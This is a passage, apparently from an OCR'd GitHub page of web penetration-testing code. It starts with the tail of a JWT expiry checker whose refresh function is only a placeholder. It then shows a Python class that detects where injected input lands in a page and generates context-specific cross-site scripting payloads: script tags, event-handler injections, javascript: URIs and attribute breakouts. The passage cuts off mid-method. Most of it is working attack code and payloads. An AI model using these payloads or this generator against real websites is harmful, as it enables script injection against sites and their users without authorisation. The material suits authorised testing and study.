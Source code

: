 ```python
            decoded = json.loads(base64.b64decode(payload))
            
            # Check expiration
            import time
            return decoded.get('exp', 0) < time.time()
        except:
            return True
    
    def refresh_token(self):
        # Implement token refresh logic
        return "new_jwt_token_here"
```

#### **Advanced Payload Generation**

**Context-Aware XSS Payloads:**
```python
import re

class AdvancedXSSGenerator:
    def __init__(self):
        self.contexts = {
            'html': self.generate_html_payloads,
            'attribute': self.generate_attribute_payloads,
            'javascript': self.generate_js_payloads,
            'css': self.generate_css_payloads,
            'url': self.generate_url_payloads
        }
    
    def detect_context(self, response_body, injection_point):
        # Analyze where our input appears in the response
        patterns = {
            'html': r'<[^>]*>' + re.escape(injection_point) + r'[^<]*</',
            'attribute': r'<[^>]*\s+\w+=["\']?[^"\']*' + re.escape(injection_point),
            'javascript': r'<script[^>]*>.*?' + re.escape(injection_point) + r'.*?</script>',
            'css': r'<style[^>]*>.*?' + re.escape(injection_point) + r'.*?</style>',
            'url': r'https?://[^"\s]*' + re.escape(injection_point)
        }
        
        for context, pattern in patterns.items():
            if re.search(pattern, response_body, re.IGNORECASE | re.DOTALL):
                return context
        return 'html'  # Default
    
    def generate_html_payloads(self):
        return [
            '<script>alert("XSS")</script>',
            '<img src=x onerror=alert("XSS")>',
            '<svg onload=alert("XSS")>',
            '<details open ontoggle=alert("XSS")>',
            '<iframe src="javascript:alert(\'XSS\')"></iframe>'
        ]
    
    def generate_attribute_payloads(self):
        return [
            '" onmouseover="alert(\'XSS\')" "',
            '\' onmouseover=\'alert("XSS")\' \'',
            '"><script>alert("XSS")</script>',
            '\'/><script>alert("XSS")</script>',
            'javascript:alert("XSS")'
        ]
    
    def generate_js_payloads(self):
        return [
```